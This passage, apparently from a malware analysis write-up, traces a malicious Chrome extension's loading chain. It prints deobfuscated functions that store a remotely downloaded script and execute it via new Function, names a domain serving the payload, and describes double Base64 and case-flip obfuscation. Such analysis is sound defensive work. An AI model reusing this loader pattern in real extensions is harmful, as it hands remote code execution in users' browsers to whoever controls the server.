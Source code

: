 ```javascript
    return 'exception'
  }
}
```

This remote script is then saved into local storage variable called `dipLstCd88` (*5.js*). As before, this remote script contains a packed script that is Base-64 encoded twice then cases-flipped (a slight modification of the techniques used before).

[***Scripts/4.js***](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Scripts/4.js): `ldRmtDaima()` (Line 621)

```javascript
function ldRmtDaima(a) {
  if (20 < a.length && -1 < a.indexOf('dipextsig')) {
    consolelog('succ shuaxin');
    var b = a.search('`'),
    c = a.substring(0, b);
    a = a.substring(b + 1);
    b = {  };
    b.dipLstSig88 = c;
    b.dipLstLd88 = (new Date).getTime();
    b.dipLstCd88 = a  // RAIN: Store into variable
  } else consolelog('no shuaxin from gmz svr: length=' + a.length + ' sig=' + a.indexOf('dipextsig'));
  b = { };
  b.dipLstLd88 = (new Date).getTime();  // RAIN: Set updated time
  chrome.storage.local.set(b)
}
```

[***Scripts/4.digest.js***](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Scripts/4.digest.js): [Decrypted `dipLstCd99`](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Scripts/4.digest.js)

*4.js* also contains an encrypted code snippet that is subsequently stored in `dipLstCd99`. This snippet inserts a SCRIPT tag that downloads *5.raw.js* from `gmzdaily.com/ext/ga.js` (the link is to a JS file rather than a PHP file as above, however they are the same). This code is not run by any other routine in the loading chain.

### Step 7

*4.js* then executes the code in `dipLstCd88` (*5.js*) resulting in the decoding of *6.js*: a packed script. This is immediately evaluated to become *7.js*.

[***Scripts/4.js***](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Scripts/4.js): `ldBckGr()` (Line 650), ***Scripts/5.js***, ***Scripts/6.js***

```javascript
function ldBckGr(a) {
  // RAIN: Successfully loaded external "ga" file (see Step 6)
  setTimeout(function () { consolelog('succ load ext-ga') }, 150);
  a.search('"');
  var b = a.substring(0, 8),
  c = a.length;
  a = (a + b).substring(0, c);
  consolelog('==>  ' + a.substring(0, 20));
  (new Function(a)) ();  // RAIN: Execute the contents of "a"
  return c
}
```
